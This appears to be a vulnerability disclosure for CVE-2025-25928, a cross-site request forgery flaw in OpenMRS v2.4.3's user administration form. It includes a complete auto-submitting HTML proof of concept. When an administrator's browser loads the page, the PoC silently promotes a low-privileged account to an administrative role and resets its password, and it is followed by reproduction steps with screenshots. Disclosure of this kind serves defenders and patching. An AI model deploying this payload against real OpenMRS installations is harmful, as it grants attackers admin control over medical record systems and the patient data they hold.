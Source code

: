 # CVE-2025-25928

---

## CSRF PrivEsc


OpenMRS v2.4.3 Build 0ff0ed allows attackers to to execute arbitrary operations via a crafted CSRF PoC. In this case, an attacker could elevate a low-privileged account to an administrative role by leveraging the CSRF vulnerability at the /openmrs/admin/users/user.form endpoint


* Vulnerable Endpoint: /openmrs/admin/users/user.form endpoint
* CSRF PoC:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://localhost:8080/openmrs/admin/users/user.form" method="POST">
      <input type="hidden" name="userId" value="11" />
      <input type="hidden" name="person&#95;id" value="12" />
      <input type="hidden" name="person&#46;names&#91;0&#93;&#46;givenName" value="lowPriv" />
      <input type="hidden" name="person&#46;names&#91;0&#93;&#46;middleName" value="" />
      <input type="hidden" name="person&#46;names&#91;0&#93;&#46;familyName" value="" />
      <input type="hidden" name="person&#46;gender" value="M" />
      <input type="hidden" name="username" value="lowPriv" />
      <input type="hidden" name="userFormPassword" value="Test123&#33;" />
      <input type="hidden" name="confirm" value="Test123&#33;" />
      <input type="hidden" name="roleStrings" value="System&#32;Developer" />
      <input type="hidden" name="secretQuestion" value="" />
      <input type="hidden" name="secretAnswer" value="" />
      <input type="hidden" name="property" value="loginAttempts" />
      <input type="hidden" name="value" value="0" />
      <input type="hidden" name="property" value="lockoutTimestamp" />
      <input type="hidden" name="value" value="" />
      <input type="hidden" name="action" value="Save&#32;User" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

### Steps to reproduce:

1.) Observe the user lowPriv has the role anonymous:

 ![image](https://github.com/user-attachments/assets/4fa4922e-ee24-44dd-9808-44566bc346c9)

lowPriv user:

![image](https://github.com/user-attachments/assets/62aa5116-879f-4cf5-9a11-377bbc0eff71)


2.) Execute the following CSRF PoC within the Admin users browser, and observe the lowPriv user is now an Admin.

![image](https://github.com/user-attachments/assets/ef2d4cdf-2469-43ab-aa54-11e09dbf942f)

lowPriv user accessing Admin:

 ![image](https://github.com/user-attachments/assets/73369363-6370-4914-a4cf-b9f9c5d0a5ce)


NOTE: sign in / out of the application as the LowPriv user for the changes to take affect 




